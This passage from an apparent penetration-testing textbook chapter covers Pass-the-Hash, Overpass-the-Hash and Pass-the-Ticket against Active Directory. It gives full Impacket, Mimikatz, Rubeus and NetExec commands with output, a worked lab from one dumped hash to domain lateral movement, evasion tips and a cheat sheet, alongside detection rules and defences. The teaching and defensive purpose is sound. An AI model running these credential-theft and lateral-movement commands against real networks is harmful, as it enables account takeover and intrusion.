getTGT.py contoso.local/Administrator -hashes :2b576acbe6bcfda7294d6bd18041b8fe
# From an AES256 key (stealthy):
getTGT.py contoso.local/Administrator -aesKey 5c...e9
```

```
Impacket v0.12.0 - Copyright Fortra, LLC
[*] Saving ticket in Administrator.ccache
```

Now tell every Impacket/Kerberos tool to use it via the **`KRB5CCNAME`** environment variable, and pass `-k -no-pass` to use Kerberos instead of a password:

```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
klist                    # inspect (needs krb5-user): shows the TGT
psexec.py -k -no-pass contoso.local/Administrator@fs01.contoso.local
wmiexec.py -k -no-pass contoso.local/Administrator@fs01.contoso.local
```

`-k` = use Kerberos auth (read the ticket from `KRB5CCNAME`); `-no-pass` = do not prompt for a password. **You must target the host by its FQDN**, not IP — Kerberos service tickets are bound to SPNs (`cifs/fs01.contoso.local`), and using an IP forces an NTLM fallback that defeats the point. Ensure name resolution works (`/etc/hosts` or point `/etc/resolv.conf` at the DC).

This is the Linux OtH → PtT pipeline: hash → TGT (ccache) → Kerberos lateral movement, entirely NTLM-free.

---

## Part 7: Pass-the-Ticket In Practice

PtT replays a ticket you already have — either one you *stole* from a logon session, or one you *requested* via OtH. Two ticket formats dominate and you must convert between them:

| Format | Extension | Used by |
| --- | --- | --- |
| **kirbi** | `.kirbi` | Windows / Mimikatz / Rubeus (native Windows ticket blob) |
| **ccache** | `.ccache` | Linux / MIT Kerberos / Impacket (`KRB5CCNAME`) |

Convert with Impacket's `ticketConverter.py` (bidirectional by extension):

```bash
ticketConverter.py ticket.kirbi ticket.ccache     # Windows→Linux
ticketConverter.py ticket.ccache ticket.kirbi     # Linux→Windows
```

### 7.1 Stealing tickets from a live session (Windows)

On a compromised host, Mimikatz exports every ticket in memory to `.kirbi` files:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
   ... writes files like [0;3e7]-2-1-40e00000-Administrator@krbtgt-CONTOSO.LOCAL.kirbi ...
```

The filename encodes the client and the target service. A file ending `krbtgt-CONTOSO.LOCAL` is a **TGT** (the golden find — reusable for *any* service). One ending `cifs-FS01.CONTOSO.LOCAL` is a **TGS** for just that file server.

Rubeus can also dump and export:

```
C:\> Rubeus.exe dump /nowrap                 # list/dump tickets in memory (base64)
C:\> Rubeus.exe triage                        # concise table of who holds what tickets
```

`Rubeus.exe triage` output — a quick map of usable tickets:

```
 Action: Triage Kerberos Tickets (All Users)
 [*] Current LUID    : 0x3e7
 ---------------------------------------------------------------------
 | LUID  | UserName             | Service         | EndTime           |
 ---------------------------------------------------------------------
 | 0x3e7 | ws01$ @ CONTOSO.LOCAL| krbtgt/CONTOSO  | 11/19 15:04:11    |
 | 0x9a2 | alice @ CONTOSO.LOCAL| krbtgt/CONTOSO  | 11/19 14:58:33    |
 | 0x9a2 | alice @ CONTOSO.LOCAL| cifs/fs01       | 11/19 14:58:34    |
 ---------------------------------------------------------------------
```

Seeing `alice`'s TGT (`krbtgt/CONTOSO`) means: export it, inject it, *become alice* domain-wide.

### 7.2 Injecting a ticket (Windows)

Two ways to inject a `.kirbi` into your current session:

```
:: Mimikatz
mimikatz # kerberos::ptt alice.kirbi

:: Rubeus
C:\> Rubeus.exe ptt /ticket:alice.kirbi
```

Verify it landed with the built-in `klist`, then use it — no password needed:

```
C:\> klist
Cached Tickets: (1)
  #0>  Client: alice @ CONTOSO.LOCAL
       Server: krbtgt/CONTOSO.LOCAL @ CONTOSO.LOCAL
       ...

C:\> dir \\fs01.contoso.local\c$          :: uses alice's injected TGT via Kerberos
```

`kerberos::ptt` / `Rubeus ptt` inject into the *current* logon session, so you do not even need admin for injection (you need admin only to *steal* other users' tickets from LSASS). This is why PtT is so clean: the ticket is a self-contained bearer token.

### 7.3 Pass-the-Ticket on Linux (pass-the-cache)

The Linux equivalent — sometimes called **pass-the-cache** — is just pointing `KRB5CCNAME` at a stolen/converted ccache:

```bash
ticketConverter.py alice.kirbi alice.ccache
export KRB5CCNAME=$(pwd)/alice.ccache
klist
smbclient.py -k -no-pass contoso.local/alice@fs01.contoso.local
```

Linux hosts joined to AD also cache tickets in `/tmp/krb5cc_*` — if you compromise such a host, harvesting those files *is* ticket theft, and each one can be replayed with `KRB5CCNAME`.

---

## Part 8: Choosing the Right Technique — A Decision Tree

With three techniques and multiple tools, the practical skill is *choosing*. This is the map that turns "I have credential material" into "I have the next host."



| Situation | Best technique | Why |
| --- | --- | --- |
| Local-admin hash, workgroup box, no domain | **PtH** (`nxc --local-auth`, `psexec`) | No Kerberos for local accounts anyway |
| Domain hash, NTLM disabled/hardened | **OtH** (`asktgt` / `getTGT.py`) | PtH would fail; Kerberos still accepts the derived key |
| You dumped an AES256 key | **OtH with `/aes256`** | Matches normal etype — evades encryption-downgrade detection |
| You dumped a live TGT from LSASS | **PtT** | No AS-REQ at all → lowest KDC footprint |
| You need to impersonate a *specific* logged-in user | **PtT** of their ticket | Their TGT is right there in memory |
| Broad "where does this work" sweep | **PtH via `nxc`** | Fastest reconnaissance of reuse |

**CTF/lab connection:** On HackTheBox/TryHackMe AD boxes, the usual flow is: dump a local SAM hash → `nxc` sweep to find reuse → `evil-winrm -H` or `psexec.py -hashes` onto the next host → `secretsdump` a domain hash → `getTGT.py` OtH → `psexec.py -k` onto the DC. Every one of those steps is in this chapter.

---

## Part 9: Fully Worked Lab — One Hash to Domain Lateral Movement

This is the reproducible end-to-end lab. Environment (build instructions in Part 12): domain `contoso.local`, DC `dc01` (10.10.10.10), file server `fs01` (10.10.10.11), workstations `ws01` (10.10.10.20) and `ws02` (10.10.10.21). You have a Meterpreter/SYSTEM shell on `ws01` from an earlier exploitation step. Attacker is Kali at 10.10.10.100.

**Assumptions & authorisation:** this is your own lab. Every command is scoped to `10.10.10.0/24`. Do not run any of it outside a lab you own or an engagement you are contracted for.

### Step 1 — Dump credential material from ws01

From your SYSTEM shell, dump the local SAM and LSASS. (Chapter 6 covers dumping in depth; here we use the result.)

```bash
# From Kali, since you have admin on ws01, use secretsdump remotely with the local admin you exploited,
# OR run mimikatz locally. Remote SAM dump:
secretsdump.py ./Administrator@10.10.10.20   # will prompt; or -hashes if you have it
```

Realistic output (trimmed):

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping LSA Secrets
[*] Dumping cached domain logon information (domain/username:hash)
CONTOSO.LOCAL/jsmith:$DCC2$10240#jsmith#a1b2...   (mscache, crackable not passable)
[*] Cleaning up...
```

You now hold the **local Administrator NT hash** `2b576acb...b8fe`. (You would also grab LSASS with `mimikatz sekurlsa::logonpasswords` / `sekurlsa::ekeys` to get any *domain* user tickets/keys cached on ws01 — assume a domain user `alice` was logged in and you captured her AES key.)

### Step 2 — Find where the local hash is reused

```bash
nxc smb 10.10.10.20-21 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe --local-auth
```

```
SMB  10.10.10.20  445  WS01  [+] WS01\Administrator 2b576acb...b8fe (Pwn3d!)
SMB  10.10.10.21  445  WS02  [+] WS02\Administrator 2b576acb...b8fe (Pwn3d!)
```

`ws02` reuses the same local-admin password. **Pass-the-Hash** onto it:

```bash
wmiexec.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe Administrator@10.10.10.21
```

```
Impacket v0.12.0 - Copyright Fortra, LLC
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
C:\>whoami
ws02\administrator
```

### Step 3 — Harvest a domain user from ws02, then Overpass-the-Hash

Say `alice` (a Server Operators member) has a session on ws02. Dump her AES256 key (via mimikatz `sekurlsa::ekeys` on ws02, or her ticket via `sekurlsa::tickets /export`). Assume you recover her **AES256 key** `5c...e9`. Overpass-the-Hash from Kali to get a real TGT, quietly (AES, not RC4):

```bash
getTGT.py contoso.local/alice -aesKey 5c...e9
export KRB5CCNAME=$(pwd)/alice.ccache
klist
```

```
[*] Saving ticket in alice.ccache
Ticket cache: FILE:alice.ccache
Default principal: alice@CONTOSO.LOCAL
Valid starting     Expires            Service principal
11/19 05:04:11     11/19 15:04:11     krbtgt/CONTOSO.LOCAL@CONTOSO.LOCAL
```

### Step 4 — Move over Kerberos to fs01 (NTLM-free)

```bash
# Note FQDN target and -k -no-pass — pure Kerberos
psexec.py -k -no-pass contoso.local/alice@fs01.contoso.local
```

```
[*] Requesting shares on fs01.contoso.local.....
[*] Found writable share ADMIN$
[*] Creating service ...
C:\Windows\system32> whoami
contoso\alice
```

### Step 5 — Pass-the-Ticket to pivot as another user

Suppose on fs01 a **backup service account** `svc_backup` has a cached TGT. Dump and inject it. From a Windows foothold on fs01:

```
mimikatz # sekurlsa::tickets /export
   [0;abc12]-2-0-60a00000-svc_backup@krbtgt-CONTOSO.LOCAL.kirbi
mimikatz # kerberos::ptt [0;abc12]-2-0-60a00000-svc_backup@krbtgt-CONTOSO.LOCAL.kirbi
mimikatz # exit
C:\> klist          :: now shows svc_backup's TGT
C:\> dir \\dc01.contoso.local\c$     :: access as svc_backup
```

### Step 6 — Map the path forward

You now hold: local-admin hash (ws01/ws02), alice's AES key + TGT, svc_backup's TGT. Feed BloodHound (Chapter 2): if `svc_backup` has `GenericAll`/backup rights over the DC or is in a privileged group, the next step is DCSync (`secretsdump.py -just-dc`) → the `krbtgt` hash → Golden Ticket (later chapter). The lab has taken **one dumped hash to a Kerberos-authenticated foothold on the file server and impersonation of a service account** — with zero passwords cracked.



---

## Part 10: Common Pitfalls and Edge Cases

Real engagements break in predictable ways. The fixes:

- **`STATUS_LOGON_FAILURE` on PtH with a local account** → you forgot `--local-auth` (nxc) or you targeted a domain account name. Local SAM hashes only work for *local* logon; specify the machine name as the domain or use `--local-auth`.
- **`STATUS_ACCESS_DENIED` but the hash is right** → the account is a **non-RID-500 local admin** blocked by **UAC remote restrictions (LocalAccountTokenFilterPolicy)**. The built-in RID-500 Administrator is exempt; other local admins are filtered on remote logon unless `LocalAccountTokenFilterPolicy=1`. This is a real defensive control.
- **PtH just fails everywhere for a domain account** → the target may have **NTLM disabled**. Switch to Overpass-the-Hash / Kerberos.
- **OtH `KRB_AP_ERR_SKEW` / clock skew** → Kerberos allows only ~5 minutes of drift. Sync your attacker clock to the DC: `sudo ntpdate dc01.contoso.local` or `sudo rdate -n 10.10.10.10`.
- **OtH `KDC_ERR_S_PRINCIPAL_UNKNOWN` / no ticket for host** → you targeted an **IP** instead of the **FQDN**, so no SPN matched. Always use the FQDN with Kerberos, and make sure DNS/`/etc/hosts` resolves it.
- **`KDC_ERR_ETYPE_NOTSUPP` when passing an AES key** → the account has no AES key set (very old account / no AES on the domain). Fall back to the NT hash (`-hashes`/`/rc4`).
- **Ticket "works" then suddenly stops** → the TGT expired (10h default) or the account's password changed (which rotates the key and invalidates OtH-derived tickets; a *stolen live TGT* keeps working until expiry regardless).
- **Members of Protected Users can't be OtH'd well** → Protected Users forbids NTLM, forbids RC4/DES Kerberos, and shortens TGT lifetime — deliberately (Part 11).
- **evil-winrm hash fails but PtH SMB works** → WinRM requires membership in **Remote Management Users** *and* the WinRM service running (5985/5986). Check with `nxc winrm`.

---

## Part 11: Detection & Defense Angle

This is the consolidated blue-team section. PtH/PtT/OtH are *credential-material* attacks, so defense is layered: stop the theft, contain the reuse, and detect the anomalies each technique leaves.

### 11.1 What each technique looks like in the logs



Key Windows Security event IDs and what to watch:

| Event ID | Name | Signal for | Tell-tale |
| --- | --- | --- | --- |
| 4624 | Successful logon | PtH | Logon Type **3** (network) with **NTLM** auth package, from a workstation to workstations, especially built-in Administrator |
| 4625 | Failed logon | PtH sweep | Bursts of NTLM failures across many hosts from one source |
| 4768 | Kerberos TGT requested (AS-REQ) | OtH | **Encryption Type 0x17 (RC4)** where AES is the norm = downgrade; TGT for a user from an unusual host |
| 4769 | Kerberos service ticket (TGS-REQ) | PtT/roast | Service ticket requests; RC4 downgrade |
| 4770 | TGS renewed | PtT | Renewal of an injected long-lived ticket |
| 4672 | Special privileges assigned | Any admin logon | Privileged logon on unexpected hosts |
| 4688 | Process creation | Exec | `services.exe` spawning odd children (psexec), `wmiprvse.exe` → cmd (wmiexec) |
| 7045 | Service installed | psexec/smbexec | Random 8-char service names, binary in `ADMIN$` |
| 4698 | Scheduled task created | atexec | Task created remotely then deleted |

**Sigma-style detection logic for the RC4 downgrade (OtH/roast hallmark):**

```yaml
title: Kerberos RC4 Encryption Downgrade (Overpass-the-Hash / Roasting)
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID:
      - 4768   # TGT request
      - 4769   # TGS request
    TicketEncryptionType: '0x17'   # RC4_HMAC — anomalous where AES is default
  filter_computer_accounts:
    TargetUserName|endswith: '$'    # machine accounts legitimately vary
  condition: selection and not filter_computer_accounts
level: high
```

**Pass-the-Ticket is the hardest to catch** because a replayed ticket generates *no* AS-REQ (4768) — the attacker never asked the KDC for it. The correlation signal is a **4769/service usage with no matching 4768 for that user from that host**, or a TGT appearing on a host that never issued an interactive logon (4624 Type 2/10) for that user. Golden/forged tickets (a later chapter) push this further with impossible lifetimes and non-existent RIDs.

**LSASS access telemetry is the earliest and best signal**, because all three attacks depend on stealing material from LSASS. Sysmon **Event 10 (ProcessAccess)** where `TargetImage=lsass.exe` and `GrantedAccess` includes `0x1010`/`0x1410`/`0x143a` (read masks Mimikatz uses) from a non-standard `SourceImage` is a high-fidelity Mimikatz indicator. Microsoft Defender for Identity and most EDRs alert on exactly this.

### 11.2 Preventive controls (defence in depth)

| Control | Stops / limits | Mechanism |
| --- | --- | --- |
| **LAPS / Windows LAPS** | PtH *reuse* across machines | Unique, rotated local-admin password per host → a dumped local hash works on exactly one box |
| **Protected Users group** | OtH, PtH of those users | Members can't use NTLM, RC4/DES; TGT lifetime cut to 4h; no credential delegation |
| **Credential Guard** | Theft (PtH/OtH source) | VBS isolates LSASS secrets in a hypervisor-protected process → Mimikatz can't read NT hashes/TGTs |
| **Disable NTLM** (`Restrict NTLM` policies) | PtH entirely | Forces Kerberos; PtH has nothing to authenticate against |
| **Tiering (Tier 0/1/2)** | Lateral spread | DA credentials never touch workstations → no high-value hash/ticket to steal downstream |
| **AES-only Kerberos** (disable RC4) | OtH with NT hash | Removes the RC4 path; forces attackers onto detectable/harder AES-key theft |
| **LocalAccountTokenFilterPolicy default (0)** | PtH with non-500 admins | UAC remote restriction filters non-RID-500 local admins on network logon |
| **Remote Credential Guard** | RDP credential theft | Prevents credentials being exposed to a compromised RDP target |
| **Regular `krbtgt` password rotation** | Golden Tickets (downstream) | Twice-rotation invalidates forged TGTs |

**IR use case:** on suspected PtH lateral movement, pivot on the **account + source host**: pull every 4624 Type 3 NTLM logon for that account across the fleet in the window, overlay 7045/4698 for exec artifacts, and check Sysmon Event 10 on the *origin* host for the LSASS read that seeded it. Containment is: force-reset the account's password *twice* if it's krbtgt, reset affected user/computer accounts (which rotates keys and kills OtH), and isolate the origin host.

**Red team usage (opsec summary):** prefer PtT (no KDC request) > OtH-with-AES (blends etype) > OtH-with-RC4 (downgrade flag) > PtH-psexec (service + file + NTLM, loudest). Dump with a tool that minimises LSASS-read signatures, use FQDNs, keep clocks synced, and avoid the built-in Administrator where the environment monitors RID-500 network logons.

---

## Part 12: Build the Lab

You need a small AD to practise safely. Minimum viable lab:



**Fastest path — automated builders:**

- **GOAD (Game of Active Directory)** — `git clone https://github.com/Orange-Cyberdefense/GOAD` — full multi-domain vulnerable AD with Vagrant/Ansible. Overkill but complete.
- **BadBlood** — seeds a DC with thousands of realistic users/groups/ACLs for enumeration practice.
- **`vulnerable-AD`** (PowerShell) — run on a fresh DC to introduce PtH/roast-friendly misconfigs.

**Manual minimum:**

1. Build `dc01` (Windows Server eval), promote to a domain `contoso.local`, install DNS.
2. Join `fs01`, `ws01`, `ws02` to the domain.
3. Create a domain user `alice`, a service account `svc_backup`, and set a *reused* local-admin password on `ws01`/`ws02` (to simulate the no-LAPS reuse this chapter exploits).
4. Log `alice` into `ws02` and `svc_backup` into `fs01` so their tickets/keys sit in LSASS.
5. On `ws01`, get a foothold (an intentionally vulnerable service, or just start from an admin shell) so you can dump.

To practise **detection**, install **Sysmon** with the SwiftOnSecurity config on the members and forward Security + Sysmon logs to a free SIEM (Elastic/Wazuh) — then re-run the Part 9 lab and hunt your own footprints against Part 11's table.

---

## Part 13: Final Revision / Summary

The one idea to carry out of this chapter: **Windows authentication proves knowledge of a password-*derived* secret, and that secret is exactly what post-exploitation steals.** Three faces of that truth:

- **Pass-the-Hash (PtH)** — the NT hash *is* the NTLM credential. Authenticate to SMB/WMI/WinRM/RDP-restricted-admin with `-hashes`/`-H`/`sekurlsa::pth`. Works only against NTLM. No cracking, no cleartext.
- **Overpass-the-Hash (OtH / pass-the-key)** — feed the NT hash (RC4) or, better, the AES key into an AS-REQ to obtain a *real* TGT (`Rubeus asktgt`, `getTGT.py`), then move over Kerberos. Prefer AES to dodge the RC4 encryption-downgrade alert.
- **Pass-the-Ticket (PtT)** — skip the key; steal an already-issued TGT/TGS from LSASS (`sekurlsa::tickets /export`, `Rubeus dump`) and inject it (`kerberos::ptt`, `Rubeus ptt`, or `KRB5CCNAME` on Linux). Lowest KDC footprint — no AS-REQ at all.

The decision hinges on *what you stole* and *whether NTLM is allowed*: ticket → PtT; hash + NTLM ok → PtH (fast) or OtH (clean); hash + NTLM off → OtH; AES key → OtH-AES (stealthiest). Format-wise, `.kirbi` is Windows, `.ccache` is Linux, and `ticketConverter.py` bridges them. FQDN + synced clocks are mandatory for anything Kerberos.

Defence is layered: **Credential Guard** stops the theft, **LAPS** stops reuse, **Protected Users** and **AES-only** neuter OtH, **NTLM restriction** kills PtH, **tiering** keeps high-value material off low-trust hosts, and the SOC hunts the **RC4 downgrade (4768/4769 etype 0x17)**, **NTLM Type-3 logon spread (4624)**, **service/task creation (7045/4698)**, and above all the **LSASS read (Sysmon 10)** that seeds everything. PtT is the hardest to catch precisely because it never asks the KDC — correlate ticket *use* against absent AS-REQs.

This chapter turned one dumped hash into domain lateral movement without a single cracked password. The next chapter goes after the credentials themselves at the source — LSASS, SAM and NTDS dumping with Mimikatz — completing the theft→reuse loop this chapter's attacks depend on.

---

## Part 14: Cheat Sheet / Quick Reference

**Pass-the-Hash (NTLM)**

```bash
# Impacket exec (choose by noise): psexec(loud) wmiexec smbexec atexec dcomexec
psexec.py  -hashes :NTHASH domain/user@target        # SYSTEM shell, service+file, loud
wmiexec.py -hashes :NTHASH domain/user@target        # quieter, runs as user
smbexec.py -hashes :NTHASH domain/user@target        # service per command
atexec.py  -hashes :NTHASH domain/user@target "cmd"  # one-shot via scheduled task

# NetExec sweep / exec / dump
nxc smb 10.10.10.0/24 -u user -H NTHASH --local-auth              # find reuse (Pwn3d!)
nxc smb TARGET -u user -H NTHASH --local-auth -x "whoami"          # run command
nxc smb TARGET -u user -H NTHASH --local-auth --sam               # dump local SAM

# WinRM shell / RDP restricted-admin
evil-winrm -i TARGET -u user -H NTHASH
xfreerdp /u:user /pth:NTHASH /v:TARGET +restricted-admin

# Windows-native (Mimikatz)
sekurlsa::pth /user:U /domain:D /ntlm:NTHASH /run:powershell.exe
```

**Overpass-the-Hash (hash/key → TGT)**

```bash
# Linux (writes ccache)
getTGT.py domain/user -hashes :NTHASH           # RC4 (loud)
getTGT.py domain/user -aesKey  AES256KEY         # AES (stealthy)
export KRB5CCNAME=$PWD/user.ccache
psexec.py -k -no-pass domain/user@host.fqdn      # then move over Kerberos

# Windows (Rubeus / Mimikatz)
Rubeus.exe asktgt /user:U /domain:D /rc4:NTHASH /ptt
Rubeus.exe asktgt /user:U /domain:D /aes256:KEY /ptt      # preferred
sekurlsa::pth /user:U /domain:D /aes256:KEY /run:powershell.exe
```

**Pass-the-Ticket (steal & inject)**

```bash
# Steal (Windows)
sekurlsa::tickets /export          # dump .kirbi files (mimikatz)
Rubeus.exe dump /nowrap            # dump base64 tickets
Rubeus.exe triage                  # table of who holds which tickets

# Inject (Windows)
kerberos::ptt ticket.kirbi         # mimikatz
Rubeus.exe ptt /ticket:ticket.kirbi
klist                              # verify

# Linux (pass-the-cache)
ticketConverter.py ticket.kirbi ticket.ccache   # convert
export KRB5CCNAME=$PWD/ticket.ccache
smbclient.py -k -no-pass domain/user@host.fqdn
```

**Format & gotcha quick table**

| Symptom | Cause | Fix |
| --- | --- | --- |
| Local-account PtH fails | missing `--local-auth` | add it / use machine name |
| `ACCESS_DENIED` non-500 admin | UAC remote filter | use RID-500 or need `LocalAccountTokenFilterPolicy=1` |
| Kerberos `SKEW` | clock drift >5m | `ntpdate dc01` |
| Kerberos `PRINCIPAL_UNKNOWN` | used IP not FQDN | target `host.fqdn` |
| AES key `ETYPE_NOTSUPP` | no AES key set | use NT hash / RC4 |
| PtH fails everywhere (domain) | NTLM disabled | switch to OtH |

**Detection at a glance:** 4624 Type 3 NTLM (PtH) · 4768/4769 etype 0x17 RC4 downgrade (OtH) · ticket use with no 4768 (PtT) · 7045 random service (psexec) · 4698 (atexec) · Sysmon 10 LSASS read (theft).

---

## Part 15: Practice Labs & Resources

Every item below trains the *specific* skills in this chapter — PtH, PtT and OtH — not generic AD.

**Guided rooms / boxes**

- **TryHackMe — "Pass the Hash"** room: focused, walks psexec/evil-winrm/mimikatz PtH end to end.
- **TryHackMe — "Attacking Kerberos"** and **"Persisting Active Directory"**: OtH, PtT, ticket theft and injection with Rubeus/Impacket.
- **HackTheBox Academy — "Password Attacks"** and **"Kerberos Attacks"** modules: PtH/PtT/OtH with graded labs and target VMs.
- **HackTheBox machines** with a documented PtH/PtT path: *Active*, *Forest*, *Sauna*, *Blackfield*, *Cascade* (retired — walkthroughs abound). *Blackfield* in particular chains dumped hashes → OtH → lateral movement.
- **GOAD (Game of Active Directory)** — self-hosted; its scenarios explicitly include PtH/PtT/OtH across trusts.

**Self-built practice (Part 12)** — stand up the four-host lab, then:

1. Dump a local SAM hash and prove reuse with `nxc --local-auth`.
2. PtH onto the reused host three ways (psexec/wmiexec/evil-winrm) and compare the logs you generate.
3. OtH a domain user with `getTGT.py` twice — once `-hashes` (watch the 4768 etype 0x17) and once `-aesKey` (watch it blend in).
4. Steal and inject a TGT with `sekurlsa::tickets /export` → `kerberos::ptt`, and confirm *no* 4768 was generated.
5. Install Sysmon + a SIEM and rebuild every alert in Part 11's table from your own runs.

**Reading / reference**

- MITRE ATT&CK: **T1550.002** (PtH), **T1550.003** (PtT), **T1558** (Steal or Forge Kerberos Tickets), **T1003** (OS Credential Dumping).
- The original **"Pass-the-Hash"** research lineage (Hernan Ochoa's PtH toolkit) for the historical mechanics.
- Impacket, Rubeus and Mimikatz project READMEs — read the flag references you used here in full.
- Microsoft's **"Mitigating Pass-the-Hash and Other Credential Theft"** whitepapers and the **Protected Users / Credential Guard / LAPS** docs for the defensive counter.

Work the offense labs and the detection labs *together*: run an attack, then hunt it in your own SIEM. Understanding both sides is what separates someone who can run a tool from someone who can operate against — and defend — a real domain.
